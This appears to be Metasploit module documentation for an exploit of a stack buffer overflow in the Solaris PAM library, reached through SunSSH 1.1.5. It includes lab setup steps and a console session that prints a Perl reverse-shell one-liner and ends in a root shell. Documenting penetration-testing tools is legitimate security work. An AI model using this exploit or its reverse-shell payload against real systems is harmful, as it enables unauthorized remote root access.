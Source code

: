## Vulnerable Application

### Description

This module exploits a stack-based buffer overflow in the Solaris PAM
library's username parsing code, as used by the SunSSH daemon when the
keyboard-interactive authentication method is specified.

Tested against SunSSH 1.1.5 on Solaris 10u11 1/13 (x86) in VirtualBox,
VMware Fusion, and VMware Player. Bare metal untested. Your addresses
may vary.

### Setup

Download and install [Solaris 10u11 1/13
(x86)](https://www.oracle.com/solaris/solaris10/downloads/solaris10-get-jsp-downloads.html)
in VMware or VirtualBox. SunSSH should already be installed and running
when you start the system.

### Adding new targets

To add a new target, you must find the `libc` base address for `sshd`.

```
bash-3.2# pmap $(pgrep -xn sshd) | grep -w libc
FEB80000    1088K r-x--  /lib/libc.so.1
FEC90000      32K rwx--  /lib/libc.so.1
FEC98000       8K rwx--  /lib/libc.so.1
bash-3.2#
```

The `libc` base address for `sshd` is `0xfeb80000` in this example.

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Targets

### 0

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware`

### 1

`SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox`

## Scenarios

### `SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox`

```
msf6 > use exploit/solaris/ssh/pam_username_bof
[*] Using configured payload cmd/unix/reverse_perl
msf6 exploit(solaris/ssh/pam_username_bof) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VMware
   1   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox


msf6 exploit(solaris/ssh/pam_username_bof) > set target 1
target => 1
msf6 exploit(solaris/ssh/pam_username_bof) > options

Module options (exploit/solaris/ssh/pam_username_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT   22               yes       The target port


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox


msf6 exploit(solaris/ssh/pam_username_bof) > set rhosts 127.0.0.1
rhosts => 127.0.0.1
msf6 exploit(solaris/ssh/pam_username_bof) > set rport 2222
rport => 2222
msf6 exploit(solaris/ssh/pam_username_bof) > set lhost 192.168.123.1
lhost => 192.168.123.1
msf6 exploit(solaris/ssh/pam_username_bof) > run

[+] perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.123.1:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
[*] Started reverse TCP handler on 192.168.123.1:4444
[*] Executing automatic check (disable AutoCheck to override)
[*] Using auxiliary/scanner/ssh/ssh_version as check
[+] 127.0.0.1:2222        - SSH server version: SSH-2.0-Sun_SSH_1.1.5 ( service.version=1.1.5 service.vendor=Sun service.product=SSH os.vendor=Sun os.family=Solaris os.product=Solaris os.cpe23=cpe:/o:sun:solaris:- service.protocol=ssh fingerprint_db=ssh.banner )
[*] 127.0.0.1:2222        - Scanned 1 of 1 hosts (100% complete)
[+] The target appears to be vulnerable. SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox is a compatible target.
[*] Exploiting SunSSH 1.1.5 / Solaris 10u11 1/13 (x86) / VirtualBox
[*] Yeeting cmd/unix/reverse_perl at 127.0.0.1:2222
[*] Command shell session 1 opened (192.168.123.1:4444 -> 192.168.123.1:57474) at 2020-12-07 01:31:34 -0600

id
uid=0(root) gid=0(root)
uname -a
SunOS vagrant-solaris10.dev 5.10 Generic_147148-26 i86pc i386 i86pc
```
